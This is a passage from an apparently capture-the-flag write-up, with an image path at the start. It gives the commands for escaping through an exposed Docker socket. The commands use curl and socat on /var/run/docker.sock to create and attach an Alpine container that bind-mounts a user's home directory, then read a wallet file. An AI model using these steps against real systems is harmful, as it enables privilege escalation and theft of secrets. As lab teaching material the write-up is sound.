 ```
NetworkManager
PackageKit
X11
acpi
adduser.conf
alternatives
apparmor
apparmor.d
apport
[SNIPPED]
```
I then stupidly used the exit command, which closed my ssh session. 😖

I could not get back in after that. Oops. 😫

Here are the commands that would have worked:
```
echo -e '{"Image":"alpine:edge","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/home/mast3rmind/","Target":"/mhome"}]}' > container.json

curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d "$(cat container.json)" http://localhost/containers/create

curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/1d09/start

socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/1d09/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1

cd /mhome/
cat wallet/cryptodb.dat
```

And we are done.
Thanks for reading!

![/assets/images/cybersci/doge.gif](/assets/images/cybersci/doge.gif)
